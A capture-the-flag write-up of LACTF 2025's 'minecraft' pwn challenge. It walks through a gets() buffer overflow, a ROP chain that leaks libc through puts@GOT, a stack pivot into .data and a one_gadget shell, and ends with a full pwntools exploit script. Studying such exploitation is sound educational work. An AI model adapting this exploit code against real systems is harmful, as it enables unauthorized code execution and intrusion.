





This challenge comes from LACTF's /pwn/minecraft challenge in 2025. There are many different solutions to this challenge including FSOP but I stuck with just ROP and stack pivoting.

## minecraft

### Protections

```
Arch: amd64-64-little
RELRO: Partial RELRO
Stack: No canary found
NX: NX enabled
PIE: No PIE (0x400000)
Stripped: No
```

So I can overwrite the GOT, don't have to worry about canaries, and there's no PIE so I can use hardcoded values in the binary.

### Program Code

This program is pretty simple. It asks the user whether they want to play singleplayer or multiplayer. If multiplayer is chosen, the program calls exit with a value of 1.

```c
int main(void) {
  setbuf(stdout, NULL);
  while (1) {
    puts("\nM I N C E R A F T\n");
    puts("1. Singleplayer");
    puts("2. Multiplayer");
    if (read_int() != 1) {
      puts("who needs friends???");
      exit(1);
    }
```

If singleplayer is chosen then it continues and prompts the user for a name for the world which is set using a `gets` call.

```c
puts("Creating new world");
puts("Enter world name:");
char world_name[64];
scanf(" ");
gets(world_name);
```

Then it asks the user whether they want to play survival or creative. If creative is chosen, the exit is called again with a value of 1.

```c
puts("Select game mode");
puts("1. Survival");
puts("2. Creative");
if (read_int() != 1) {
    puts("only noobs play creative smh");
    exit(1);
}
```

If survival is chosen, then it conitnues and asks you whether you wish to return to the main menu or exit. If exit is chosen then the program returns 1 and if you choose to go to the main menu then this process repeats since all the logic is in a while true loop.

```c
puts("Creating new world");
sleep(1);
puts("25%");
sleep(1);
puts("50%");
sleep(1);
puts("75%");
sleep(1);
puts("100%");
puts("\nYOU DIED\n");
puts("you got blown up by a creeper :(");
puts("1. Return to main menu");
puts("2. Exit");
if (read_int() != 1) {
    return 0;
}
```

And the way the program receives input is through a custom read_int function that exits if scanf does not match exactly 1 character and returns the number matched.

```c
int read_int() {
  int x;
  if (scanf(" %d", &x) != 1) {
    puts("wtf");
    exit(1);
  }
  return x;
}
```

### Exploitation
#### In search of gadgets

There is no stack canary so I can blow through the buffer, overwrite the stack pointer to rbp, and overwrite the return address. The first thing I did was look for any useful ROPgadgets in the binary and for the most part they are not helpful. Since I can push whatever I want on the stack, pops would be useful but the only pop gadget is for rbp.



#### What do I control?

The next thing is looking at what I control. Because of the gadget, I can control rbp to be any value I want. So I look through all instructions in main and read_int to see what I can do with a controlled rbp and I found two things:


So if I control rbp, I can set it to a specific value so that rdi will be set to an arbitrary location to get an arbitrary write to any writable location in memory. 

There was also this in read_int where you can control the format string that scanf takes in. So if you write another format string like "%p" somewhere in memory and then give it to read_int here by jumping in the middle of the function you might be able to print the address of the integer buffer than read_int uses for a stack leak but this will definitely mess up the stack making it hard to return back to the middle of read_int.



But another thing I noticed was that every puts call used rax to store the string to be printed. So if I'm able to control rax, then I'm able to control what gets printed if I just jump to the instruction before puts.


But looking at the gadgets again, there are no useful ones for rax that let me set it directly except for one. 


But this does not help since it would forceibly call the leave instruction which will move the stack to wherever I set rbp to and I do not know what rbp originally was before I overwrote it so this gadget does not help.

I was stuck for a while here. and started looking at one_gadgets thinking thats what it could be but that doesnt work without a libc leak and without more control of other registers. I was stuck for a while and deicded to look at main and read_int for any instance of rax until I remembered that read_int returns the number I input which is always rax

So I can add the start of read_int to my ropchain and it will set rax for me. Sweet.

Now that I control rax, I can control what I want to print with puts. The easiest thing is to just print the address of an already called function in the GOT to get the leak. So that's what I decided to do. 

The ropchain now lookes like this:

```python
payload = b'A' * 64
payload += p64(1)
payload += nop_ret
payload += read_ int
payload += p64(0x401243)
```

Fill the buffer with 64 A's, overwrite the stack pointer to rbp to a garbage value, call  read_int, and then jump to the instruction before a puts call so I set rdi based on rax and call puts. There is a nop ; ret gadget before the call to read_int because the scanf call fails due to the stack not being 16 byte aligned. This doesnt have to be a gadget, it could be any series of 8 bytes on the stack but I just put a nop gagdet. Since all puts calls in this binary all follow the same structure, any puts in the binary will do. The progarm will prompt me to input a number since I am calling read_int. Since I want to print an already called function, I will just set rax to 0x404040 (4210688) which is the address of puts in the GOT.

```python
p.sendline(b'4210688')
```

After puts is called, the address of puts is printed and I subtract the offset of puts from the libc file given to me to get the base address of libc:

```python
p.recvuntil(b'\x80')
puts_got = int.from_bytes(b'\x80' + p.recv(5), 'little')
libc.address = puts_got - libc.sym['puts']

print('[+] libc base @ ', hex(libc.address))
```

```[+] libc base @  0x7f6f74787000```



Now that I know where libc is. I know where every instruction in libc is. This means that I know where each ropgadget is. I now have access to every ropgadget I would ever need so now all I need is a way to call a second ropchain and I win.

#### The second ropchain and pivoting the stack

Now I need to be able to call again to be able to write my second ropchain somewhere. But how do I call gets? If I get main to call ret after I print the leak, the program will call the leave instruction and will mess up the ret since it will move the stack (rsp) to rbp and attempt to execute from there? Remeber how I said I can jump to any puts call in my ropchain since they all do the same instruction right before puts is called? This is not entirely true because if I jump to a puts call after the gets call, then I run into that problem with leave. But if I jump to a puts call before the gets call, then I get to call puts for the leak and call gets with my custom rbp like in the first gets call to set the ropchain. This means I need to set rbp to where I want to write my ropchain which means I need to go back and modify my original ropchain.

The first ropchain is now:

```python
payload = b'A' * 64
payload += p64(1)
payload += nop_ret
payload += read_int
payload += pop_rbp_ret
payload += data_section
payload += p64(0x401243)
```     

In order:
- Fill the 64 byte buffer
- set stack pointer of rbp to garbage value
- nop ; ret gadget to 16 byte align the stack for scanf in read_int
- pop rbp ; ret gadget to set the rbp to the next thing on the stack
- push an address from the .data section on the stack so rbp gets set to it, in this case its 0x404138
- the address of the mov rdi, rax instruction of the puts call before the gets call

Now that I have set rbp to a writable place in memory, after the puts call I will be able to write my ropchain at rbp-0x40 which is 0x404138 - 0x40 = 0x4040f8. Now I can start writing my second ropchain here and the best part about it is that when main finishes and calls leave, it will move the stack (rsp) to 0x404138.

Since the stack will move to 0x404138, I just pad my second ropchain with a bunch of 'A's until I get to 0x404138. The gets will start writing at 0x4040f8 so I pad it with 0x404138 - 0x4040f8 = 0x40 'A's. From here is where I start writing the second ropchain. Since I have all the gadgets I would ever need I could have just made a ropchain to call `system("/bin/sh")` but I decided to use one of the one_gadgets I found earlier:



Since rbp is already in the .data section, rbp-0x38 is already writable. I just need to set rdi and r13 to 0 so I find the pop gadgets for each of the two registers in the provided libc and add them to my second ropchain and push 0 so that they each get set to 0. Finally, I put the address of the one gadget to pop the shell. 

So the second ropchain is:

```python
payload2 = b'A' * 0x40
payload2 += pop_rdi
payload2 += p64(0x0)
payload2 += pop_r13
payload2 += p64(0x0)
payload2 += one_gadget
```

There's still a problem though. Once I set this second ropchain in gets and I attempt to move the stack pointer to rbp with leave, it will not mess up and move rsp to 0x404140 instead of 0x404138 like where rbp actually is. This is because the `leave` instruction actually does two things:

```assembly
mov rbp, rsp ; restores the stack frame
pop rbp ; sets rbp to old rbp of the caller stack frame to continue execution
```

The leave instruction moves the stack pointer to the base pointer meaning rsp gets set to 0x404138 like I want. But the pop rbp will pop whatever rsp points to into rbp. In my case, this is the pop rdi ; ret gadget. So leave will pop that address into rbp and start executing my ropchain from the 0x00000000 address right after it. This is actually an easy fix. Just put an address after the 0x40 'A's to set rbp. This needs to be a writable section because the one_gadget requires that rbp-0x38 is wirtable so I just set it to 0x404200.

```python
payload2 = b'A' * 0x40
payload2 += p64(0x404200)
payload2 += pop_rdi
payload2 += p64(0x0)
payload2 += pop_r13
payload2 += p64(0x0)
payload2 += one_gadget
```

Now this pops a shell and I can just get the flag.



I really enjoyed this challenge mostly because I like thinking of different ways to pivot the stack and it made me think outside the box. I'm also not too familiar with FSOP so I'm not too sure how others did this challenge with FSOP but I would think that it is more complicated than this solution.

## Full Exploit Code

```python
# cp ./chall ./chall_patched
# patchelf ./chall_patched --set-interpreter ./path/to/ld/file

from pwn import *

context.clear(arch='amd64', terminal=['tmux', 'splitw', '-fh'], aslr=True)

elf = ELF('./chall_patched')
libc = ELF('./libc.so.6')

# minecraft gadgets
nop_ret = p64(0x4010ef)
pop_rbp_ret = p64(0x40115d)
main = p64(elf.sym['main'])
read_int = p64(elf.sym['read_int'])
data_section = p64(0x404100 + 0x38)     # add 0x38 bc we will overwrite rbp later wil a writable section for one gadget

p = process('./chall_patched', env={"LD_PRELOAD" : "./libc.so.6"})
#p = remote('chall.lac.tf', 31137)

payload  = b'A' * 64            # fill buffer
payload += p64(1)               # sets stack pointer to rbp to a garbage value

# 1st ropchain
payload += nop_ret              # nop ; ret to 16 byte align stack
payload += read_int             # sets rax to our input (0x404010 for puts got addr) for overwrite
payload += pop_rbp_ret          # pop rbp ; ret
payload += data_section         # push a data_section on the stack so pop rbp gadget sets rbp = exit@got to be able to write second ropchain there
payload += p64(0x401243)        # ret to puts before the gets call to print a libc leak, setup second ropchain with gets, and execute the new ropchain

p.sendline(b'1')                        # singleplayer
p.sendline(payload)                     # this is the 1st gets call, sets ropchain
p.sendline(b'1')                        # survival
p.sendline(b'2')                        # exit = 2, restart = 1

p.clean()
p.sendline(b'4210688')  # setting rax to puts@got from read_int in ropchain to puts libc leak

p.recvuntil(b'\x80')
puts_got = int.from_bytes(b'\x80' + p.recv(5), 'little')
libc.address = puts_got - libc.sym['puts']

print('[+] libc base @  ', hex(libc.address))

# libc ropgadgets
pop_rdi = p64(libc.address + 0x277e5)
pop_r13 = p64(libc.address + 0x29830)
one_gadget = p64(libc.address + 0xd511f)

# 2nd ropchain
payload2  = b'A' * 0x40         # 0x4040f8 - 0x404130 are set to 'A's, started writing at 0x4040f8 bc the gets call writes to rbp-0x40. rbp is 0x404038 so minus 0x40 = 0x4040f8
payload2 += p64(0x404200)       # 0x404138 sets rbp to 0x404200 needed for one_gadget since rbp-0x38 needs to be a writable section
payload2 += pop_rdi
payload2 += p64(0x0)            # set rdi = NULL
payload2 += pop_r13
payload2 += p64(0x0)            # set r13 = NULL
payload2 += one_gadget          # pop shell

p.sendline(payload2)    # send second ropchain

p.sendline(b'1')        # survivial to get to main epilogue
p.sendline(b'2')        # get to main epilogue to call leave to pivot stack to data_section 0x404140

sleep(5)        # get rid of the program output for cleaner output
p.clean()

print('[+] Popped shell')

p.interactive()
```